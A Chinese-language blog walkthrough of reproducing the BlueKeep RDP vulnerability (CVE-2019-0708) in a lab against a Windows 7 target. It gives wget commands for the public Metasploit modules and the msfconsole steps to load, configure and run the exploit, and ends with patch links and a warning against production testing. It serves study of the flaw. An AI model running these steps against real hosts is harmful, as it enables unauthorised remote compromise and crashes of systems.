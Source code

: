# CVE _2019_07_08漏洞复现



2019.9.07 今天一天 微信群，空间，知识星球刷爆了CVE2019-0708 ，第一反应是CVE2019-0708这个漏洞早在今年5月份就被爆出当时还要一部分蓝屏攻击的poc，现在又火起来，难道又有新的exp了吗？

抱着好奇的心态去凑了一波热度，发现

大佬们早已开始动手开始在漏洞复现了，一枚萌新抱着学习的心态想抱紧大佬们的大腿。

晚上有空余的时间准备自己也动手复现一次啦，毕竟动手才能体会学习的乐趣嘛哈哈，

开始

首先需要准备环境，毕竟复现漏洞不能之间拿提供服务器的机器来。

## 需要准备环境

windons 7  64  （开启3389远程桌面）

kali  （msf更新到最新版本）

Windows7 SP1下载链接:ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/

下载CVE-2019-0708RDP MSF攻击套件.zip 

链接：`https://pan.baidu.com/s/1ksE3pn58XtK1I2Zq9PwnGQ `
提取码：x7k7 

也可以直接使用命令在kali下下载

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```

下载好的之久文件如下：

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rfqav290j30nu0gqmy0.jpg)

这时候需要把文件移动到指定的系统中

`rdp.rb 移动到  /usr/share/metasploit-framework/lib/msf/core/exploit 目录`

`rdp_scanner.rb和cve_2019_0708_bluekeep.rb放到/usr/share/metasploit-framework/modules/auxiliary/scanner/rdp 目录`

`cve_2019_0708_bluekeep_rce.rb 放进/usr/share/metasploit-framework/modules/exploits/windows/rdp 目录，这里需要注意如果没有rdp这个目录就去创建个。`

## exp 利用

开启msfconsole 

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rfylwxtcj30o90hkwoa.jpg)

由于msf新添加了模块所以需要更新msf模块 输入`reload_all` 等待执行完成。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rg1wyg9kj30o605ngn5.jpg)

更新msf模块完成后，搜索漏洞编码判断模块是否加载成功，`search cve-2019-0708`

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rg9ui938j30nl0am0wg.jpg)

如果没有添加成功需要重新导入四件套到指定的位置，并执行`reload_all`

找到exp后开始调用攻击利用的exp：`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rgcmnnx6j30o50a1ae3.jpg)

输入`options` 查询配置信息。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rge0ajjnj30nu0f37at.jpg)

## 设置参数

主要设置的参数有RHOSTS / RPORT / target
1. RHOSTS 靶机ip
2. RPORT rdp端口
3. target ID数字(可选为0-4)设置受害机机器架构

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rgjr1esdj30on072jv4.jpg)

开始攻击 目标 输入 `run`

![1567876725784](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1567876725784.png)

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rgmjsc1lj31hc0u07wh.jpg)

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rgpepwi8j31h50su4qp.jpg)

## 总结：

1.成功拿到win的连接，但是，群里很多人反应靶机出现蓝屏的现象，建议切勿使用生产环境测试。

2.在复现的过程中遇到的 文件拷贝到了指定的路径，但在msf搜索不到的情况，卡在这里很久，解决办法把msf更新到最新版本，并且重启msf执行`reload_all`

3.winons  server 2008 ps 2 由于没有搭靶机所以还没有试，不过听弄过的大表哥们说阔以的，后面搭了靶机再试试。

 

参考了网络大佬们的复现过程，自我总结才有这篇文章，下面附上连接：

算命縖子:`http://www.nmd5.com/?p=409&from=groupmessage&isappinstalled=0`

华盟：`https://bbs.77169.net/forum.php?mod=viewthread&tid=374039&page=1&extra=#pid3699692`

黑鸟：`https://mp.weixin.qq.com/s/uxO2drEqf0VwfpgPdZewHw`

`https://qiita.com/shimizukawasaki/items/024b296a4c9ae7c33961?from=groupmessage&isappinstalled=0`

## 修复建议

奇安信CVE-2019-0708漏洞热补丁工具使用手册
`https://mp.weixin.qq.com/s/5g3MjS-JMPStnb89inVKXQ`

微软官方：
`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708`





时间不早了，晚安！

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6rh3jcxd0j307507edgm.jpg)